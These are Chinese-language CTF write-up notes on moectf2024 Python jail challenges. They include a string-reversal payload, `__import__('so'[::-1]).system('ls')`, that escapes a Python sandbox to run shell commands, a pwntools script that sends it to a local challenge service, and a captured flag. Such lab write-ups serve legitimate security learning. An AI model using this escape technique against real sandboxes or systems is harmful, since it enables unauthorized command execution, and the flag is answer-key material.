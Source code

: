 ```yaml
---
tags:
  - notes
comments: true
dg-publish: true
---
```


> [!PREREQUISITE]
>
> 准备练练 python jail ，准备资料如下：

> - [Tr0y's Blog](https://www.tr0y.wang/)
>     - [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/)
>     - [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
>     - [Unicode 的使用](https://www.tr0y.wang/2020/08/18/IDN/#%E5%88%A9%E7%94%A8%E5%9C%BA%E6%99%AF)
> - [nssctf](https://www.nssctf.cn/problem) (搜 jail 即可)
>     - [一个简单的题解](https://www.aiwin.fun/index.php/archives/3992/)
> - [github-autojail](https://github.com/martcl/autojail)
> - [moectf2024 题目链接](https://ctf.xidian.edu.cn/games/10/challenges?challenge=95)

## moectf2024

### moejail_lv1

根据要求拼接字符串后允许我们注入 payload，简单尝试后发现 `__import__('so'[::-1]).system('ls')` 是可行的，将 `ls` 换为需要执行的语句即可。

根据提示，在 `/tmp/` 下，[注意使用 `ls -a` 显示全部](attachments/pyjail.png)，之后想要查看文件，但是因为文件名导致命令太长了，使用 `*` 进行匹配即可：

![](attachments/pyjail-1.png)

> [!FLAG]
>
> moectf{Ah_HA-nOW-Y0u_KNoW_H0w_T0_EsCApE-SIMpL3_5trlng_fILter0}

### moejail_lv2

后面的系列题交互是类似的，故使用 python 交互吧：

```python title="moejail.py"
from pwn import *
import re

# 启用debug模式
context.log_level = "debug"

# 建立连接
conn = remote("127.0.0.1", 51371, timeout=1)

# 接收欢迎信息
welcome_msg = conn.recvuntil(b"to continue:").decode()
# print(welcome_msg)

# 使用正则表达式匹配需要拼接的字符串
match = re.search(r"Please enter '(\w+)'\+'(\w+)'=\? to continue:", welcome_msg)
if match:
    str1, str2 = match.groups()
    answer = str1 + str2 + "\n"
    conn.send(answer.encode())
else:
    print("Failed to match the required strings")
    conn.close()
    exit(1)

print(conn.recvline().decode())

command = "__import__('so'[::-1]).system('ls')"

print(command)
conn.sendline(command.encode())

# 接收并打印所有输出
print(conn.recvall().decode())

# 关闭连接
conn.close()
```

我们只需要修改 command 即可。

### readme

偶遇一个提示？(attachments/MISC.png)
